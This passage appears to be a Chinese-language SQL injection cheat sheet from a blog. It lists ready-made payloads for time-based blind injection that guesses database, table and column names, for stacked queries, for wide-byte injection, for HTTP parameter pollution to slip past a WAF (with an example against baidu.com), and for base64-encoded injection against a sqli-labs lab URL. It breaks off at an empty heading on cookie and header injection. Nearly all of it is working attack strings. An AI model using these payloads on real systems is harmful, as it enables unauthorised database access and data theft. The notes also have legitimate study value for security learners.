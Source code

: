 {% codeblock lang:PHP %}
1）猜解库名长度
1' and if(length(database())=8,sleep(5),1) -- q

2）猜解库名
if((ascii(substr(database(),1,1))=115),sleep(5),1)

3）猜解表名
if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101),sleep(5),1)

4）猜解列名
if((ascii(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105),sleep(5),1)
{% endcodeblock %}

# (堆查询)堆叠注入
{% codeblock lang:PHP %}
1;select if(substr(database(),1,1)='s',sleep(5),1)

1;show databases;
{% endcodeblock %}

# 宽字节注入

{% codeblock lang:PHP %}
1%df' union select 1,2,database()
{% endcodeblock %}

# HTTP污染注入
假设有一个通过GET方式提交的参数"id"，可以重复构造这个参数并发送出去：

?id=-1&id=2

使用的框架不同(PHP，Java，ASP.NET)参数字符串也会以不同的方式进行解析，比如在Apache/PHP的实验环境下，如果多次注入同一个参数值，只有最后一个参数值会被框架解析，但是只有第一个参数会经过WAF的分析和过滤
{% codeblock lang:PHP %}
https://www.baidu.com/?id=-1&id=1 union select 1,2,database()
{% endcodeblock %}

# base64注入
{% codeblock lang:PHP %}
http://localhost/sql/Less-1/id=MSBhbmQgMCB1bmlvbiBzZWxlY3QgMSwyLDM=

base64_encode(1 and 0 union select 1,2,3)=>MSBhbmQgMCB1bmlvbiBzZWxlY3QgMSwyLDM=
{% endcodeblock %}

# Cookie注入、Referer注入、UA注入、XFF注入
